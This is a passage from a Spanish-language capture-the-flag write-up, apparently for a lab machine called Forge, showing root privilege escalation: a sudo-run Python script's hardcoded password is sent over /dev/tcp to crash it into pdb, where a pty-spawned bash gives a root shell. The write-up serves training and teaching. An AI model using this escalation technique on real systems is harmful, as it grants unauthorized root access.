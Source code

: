```bash
finally:
    quit()
```

Estamos ante un script de python que pone en escucha un puerto por la interfaz local y este espera una contraseña, que es **secretadminpassword**, si le mandas esa contraseña te desplega un menú con 4 opciones, pero no nos interesa ninguna en este caso.

Para escalar, necesitaremos abrir una segunda conexión ssh.

```bash
user@forge:~$ sudo python3 /opt/remote-manage.py
Listening on localhost:53262
```

Una vez ejecutado el script y que sepamos que puerto está a la escucha, podemos desde la otra conexión ssh, mandar la contraseña que pide, en vez de conectarnos, lo que nos dará acceso a un **pdb** (Python Debugguer), el cual interpreta comandos de python y gracias a este, que está corriendo como usuario root, podemos generarnos una shell como usuario root, mandarnos una reverse shell, etc.

```bash
user@forge:~$ echo 'secretadminpassword' > /dev/tcp/127.1/53262
```

Una vez mandado, si nos vamos a la conexión ssh en la que estábamos corriendo el script, vemos los siguiente:

```bash
user@forge:~$ sudo python3 /opt/remote-manage.py
Listening on localhost:53262
[Errno 32] Broken pipe
> /opt/remote-manage.py(20)<module>()
-> clientsock.send(b'Welcome admin!\n')
(Pdb) 
```

Tenemos Pdb, con lo que podemos generarnos una shell como usuario root, ya que el script lo ejecutamos con **sudo**.

```bash
(Pdb) import pty;pty.spawn("/bin/bash")
root@forge:/home/user# whoami
root
```

Podemos usar el módulo **pty** para generarnos una bash como cuando queremos obtener una shell más interactiva, o bien usar módulos como **os, system**, etc.

Ahora que somos usuario root, podemos leer la flag que se encuentra en **/root**:

```bash
root@forge:/home/user# cd && ls -l
total 12
-rwxr-xr-x 1 root root   46 May 28  2021 clean-uploads.sh
-rw------- 1 root root   33 Jul 20 17:13 root.txt
drwxr-xr-x 3 root root 4096 May 19  2021 snap
```

## **Keep hacking!**

<iframe width="100%" height="400" src="https://www.youtube.com/embed/J6uN-JoV1dA" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
